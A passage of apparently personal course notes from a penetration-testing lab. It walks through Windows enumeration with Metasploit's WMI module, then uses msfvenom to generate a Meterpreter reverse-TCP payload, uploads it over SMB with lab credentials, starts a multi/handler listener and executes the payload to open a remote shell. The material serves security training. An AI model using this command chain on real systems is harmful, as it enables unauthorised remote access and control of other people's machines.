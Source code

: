     ![[Pasted image 20221121204051.png]]
    -   **Note**: If your command times out, try to ping the Windows10 machine from your Kali machine via command `ping 172.22.117.20`. If you do not get a ping back, have your instructor restart your host machine.
5.  Change the COMMAND parameter to list the processes.
    set COMMAND tasklist
    ![[Pasted image 20221121204226.png]]
    -   **Hint**: WMI uses MS-DOS commands, not PowerShell. If you're stuck, look up how to list processes in MS-DOS.
6.  Using other commands, answer the following questions:
    1.  What is the version and build number of Windows?
        Windows 10 Build 17763
        ![[Pasted image 20221121204946.png]]
    2.  What processor architecture is the machine?
        Intel64
        ![[Pasted image 20221121205415.png]]
    3.  Are there any logged in users?
        bbanner
        ![[Pasted image 20221121204854.png]]
    4.  What shares are available on the machine
	![[Pasted image 20221121204812.png]]

### Day 6
#### Activity 1
1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`
2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`
    - This connects to the `C` drive on the remote machine as the user tstark. 
3. You will then be asked for a password. Input tstark's password: `Password!`
4. List the files in the current directory using the following command:
    - `ls`
5. Upload your payload via the following command:
    - `put shell.exe`
    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.
6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:
    - `use exploit/multi/handler`
    - `set payload windows/meterpreter/reverse_tcp`
    - `set LHOST [IP ADDRESS]`
    - `set LPORT 4444`
    - `exploit -j`
    - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.
7. Now, switch to the WMI module.
    - `use scanner/smb/impacket/wmiexec`
8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
	 set SMBUser tstark set SMBPass Password! set SMBDomain megacorpone set RHOSTS 172.22.117.20
1. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.
    - `set COMMAND C:\shell.exe`
2. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the following image shows:
	`run`
    - **Note**: After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be opened.